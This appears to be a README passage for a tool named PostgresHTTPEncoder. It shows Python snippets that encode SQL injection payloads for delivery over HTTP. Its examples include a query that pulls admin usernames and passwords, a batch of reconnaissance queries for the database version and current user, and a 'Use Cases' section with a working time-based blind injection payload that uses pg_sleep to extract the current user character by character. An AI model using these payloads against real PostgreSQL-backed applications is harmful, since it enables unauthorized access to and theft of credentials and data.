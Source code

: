 ## Advanced Examples

### Handling Complex Queries
```python
# Complex query with multiple conditions
encoder = PostgresHTTPEncoder()

payload = """
SELECT username, password 
FROM users 
WHERE role = 'admin' 
AND last_login > '2024-01-01'
"""

encoded = encoder.encode(payload)
print(f"Encoded complex query: {encoded}")
```

### Handling Special Characters
```python
# Payload with special characters
payload = "SELECT * FROM users WHERE email LIKE '%@company.com'"
encoded = encoder.encode(payload)
print(f"Encoded with special chars: {encoded}")

# Payload with numbers and operators
payload = "SELECT COUNT(*) FROM users WHERE id > 1000"
encoded = encoder.encode(payload)
print(f"Encoded with operators: {encoded}")
```

### Batch Encoding
```python
def batch_encode(payloads: list) -> list:
    encoder = PostgresHTTPEncoder()
    return [encoder.encode(p) for p in payloads]

# Usage
payloads = [
    "SELECT version()",
    "SELECT current_database()",
    "SELECT current_user"
]

encoded_payloads = batch_encode(payloads)
```

## Use Cases

### Time-Based Blind Injection
```python
# Time-based injection payload
payload = """
' AND (
    SELECT CASE WHEN (
        SELECT substr(current_user,1,1)='a'
    ) THEN pg_sleep(5) 
    ELSE pg_sleep(0) 
END
)--
"""

```
